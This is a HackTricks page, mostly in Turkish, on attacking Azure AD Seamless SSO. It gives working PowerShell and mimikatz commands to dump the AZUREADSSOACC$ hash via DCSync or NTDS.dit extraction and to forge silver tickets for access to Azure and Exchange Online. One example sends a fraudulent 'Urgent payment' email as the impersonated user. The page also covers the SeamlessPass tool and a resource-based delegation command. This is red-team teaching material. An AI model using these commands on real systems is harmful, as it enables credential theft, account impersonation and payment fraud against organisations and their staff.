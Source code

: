 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) otomatik olarak **kullanıcıları, kurumsal ağınıza bağlı kurumsal cihazlarında** oturum açtırır. Etkinleştirildiğinde, **kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri gerekmez** ve genellikle kullanıcı adlarını bile girmeleri gerekmez. Bu özellik, kullanıcılarınıza ek bir yerel bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Temelde Azure AD Seamless SSO, kullanıcıları **yerel bir alan etki alanına bağlı PC'de** oturum açtırır.

Bu, hem [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) hem de [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) tarafından desteklenmektedir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanmaktadır. Yapılandırıldığında, Azure AD Connect yerel AD'de **AZUREADSSOACC`$`** adında bir **bilgisayar hesabı** oluşturur. `AZUREADSSOACC$` hesabının şifresi, yapılandırma sırasında **düz metin olarak Azure AD'ye gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** kullanılarak **şifrelenir** ve Azure AD, gönderilen şifreyi biletleri şifrelerini çözmek için kullanır.

**Azure AD**, Kerberos **biletlerini** kabul eden bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Alan etki alanına bağlı makinenin tarayıcısı, SSO için bu uç noktaya biletleri iletir.

### On-prem -> cloud

Kullanıcının **`AZUREADSSOACC$`** şifresi **asla değişmez**. Bu nedenle, bir alan yöneticisi bu hesabın **hash'ini ele geçirebilir** ve ardından **herhangi bir yerel kullanıcı senkronize edilmiş** Azure'a bağlanmak için **gümüş biletler** oluşturmak için kullanabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Hash ile artık **gümüş biletler** oluşturabilirsiniz:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Tarayıcıyı Başlatın:** Mozilla Firefox başlatılmalıdır.
2. **Tarayıcıyı Yapılandırın:**
* **`about:config`** sayfasına gidin.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) için tercihi belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişim:**
* Kuruluşun AAD alanı ile entegre bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/)’dir.
4. **Kimlik Doğrulama Süreci:**
* Giriş ekranında, kullanıcı adı girilmeli ve şifre alanı boş bırakılmalıdır.
* Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, MFA etkinse atlatmaz
{% endhint %}

#### Dcsync olmadan Seçenek 2 - SeamlessPass

Bu saldırıyı **dcsync saldırısı olmadan** daha gizli bir şekilde gerçekleştirmek de mümkündür, [bu blog yazısında açıklandığı gibi](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Bunun için yalnızca aşağıdakilerden birine ihtiyacınız var:

* **Kompromize olmuş bir kullanıcının TGT'si:** Birine sahip olmasanız bile, kullanıcı kompromize olduysa, birçok araçta uygulanan sahte TGT delegasyonu hilesi kullanarak bir tane alabilirsiniz, örneğin [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) ve [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Altın Bilet**: KRBTGT anahtarına sahipseniz, saldırıya uğrayan kullanıcı için ihtiyaç duyduğunuz TGT'yi oluşturabilirsiniz.
* **Kompromize olmuş bir kullanıcının NTLM hash'i veya AES anahtarı:** SeamlessPass, TGT'yi oluşturmak için bu bilgi ile etki alanı denetleyicisi ile iletişim kuracaktır.
* **AZUREADSSOACC$ hesabı NTLM hash'i veya AES anahtarı:** Bu bilgi ve saldırı yapılacak kullanıcının Güvenlik Tanımlayıcısı (SID) ile bir hizmet bileti oluşturmak ve bulut ile kimlik doğrulamak mümkündür (önceki yöntemde olduğu gibi).

Son olarak, TGT ile [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) aracını kullanmak mümkündür:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Seamless SSO ile Firefox'u çalıştırmak için daha fazla bilgi [**bu blog yazısında**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) bulunabilir.

#### ~~Bulut yalnızca kullanıcılar için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory yöneticileri Azure AD Connect'e erişime sahipse, **herhangi bir bulut kullanıcısı için SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri** **bulut yalnızca kullanıcılar için de oluşturulabilir**. Tek gereklilik, SID'nin uygun bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Bulut yalnızca yönetici kullanıcıların SID'sini değiştirmek artık **Microsoft tarafından engellenmiştir**.\
Bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) kontrol edin.
{% endhint %}

### On-prem -> Bulut, Kaynak Tabanlı Kısıtlı Delegasyon ile <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteyner veya OU'daki bilgisayar hesaplarını yönetebilen herkes, **hesap üzerinde kaynak tabanlı kısıtlı delegasyonu yapılandırabilir ve ona erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Bulutundayım, herkesin e-postalarını okuyorum - Active Directory aracılığıyla Azure AD'yi hackleme](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
